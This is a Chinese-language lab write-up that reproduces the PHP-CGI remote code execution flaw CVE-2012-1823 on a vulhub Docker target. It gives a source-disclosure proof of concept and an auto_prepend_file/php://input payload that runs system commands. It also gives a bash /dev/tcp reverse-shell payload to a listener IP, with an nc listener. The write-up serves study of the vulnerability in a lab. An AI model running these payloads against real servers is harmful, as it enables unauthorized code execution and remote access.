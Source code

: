 ```yaml
---
title: 漏洞复现-PHP-CGI远程代码执行 CVE-2012-1823
description: 漏洞复现
author: #有默认值
date: 2024-08-28 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd ./vulhub/php/CVE-2012-1823
docker-compose up -d 
```

## 漏洞原理
https://blog.csdn.net/jiyongx/article/details/105220880
https://github.com/vulhub/vulhub/tree/master/php/CVE-2012-1823

## PoC（Proof of Concept） 验证漏洞存在的代码
```shell
http://<ip>:<port>/index.php/?-s #将返回源码
```

## Exp（Exploit）进行实际的攻击利用
使用-d来指定auto_prepend_file制造任意文件包含漏洞，使用burpsuite抓包，然后修改数据包内容。使用“+”代替空格%3d代替“=”​​​​​​​

payload 漏洞利用载荷：

```url
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
<?php echo system("ls"); ?>
```

执行截图：

![image-20240828155056972](../assets/img/2024-08-28/iShot_2024-08-28_15.57.50.png)

成功执行代码ls



### 建立反弹shell：

shellcode 

**靶机**执行payload 
```php
<?php echo shell_exec("bash -c 'exec bash -i >& /dev/tcp/<监听机ip>/8999 0>&1'");?>
```
**接收反弹Shell机器**执行：**`nc -lvp 8999`**



## 复现总结

### 为什么payload 要 “+”代替空格%3d代替“=” ？

确保 URL 在传输过程中不被误解或破坏，进行转义。通常，空格会被编码为 `%20`，但在查询字符串中，空格也可以用 `+` 来表示。“=”替换为“%3d”
但on+-d ‘+’ 作为与后一个-d的参数分隔符，不能换成 %20

### 构造反弹shell
注意：
**接收反弹Shell机器** 监听端口防火墙要配置放行，任意ip能访问，安装nc
**靶机** 能够执行bash命令，且访问到监听机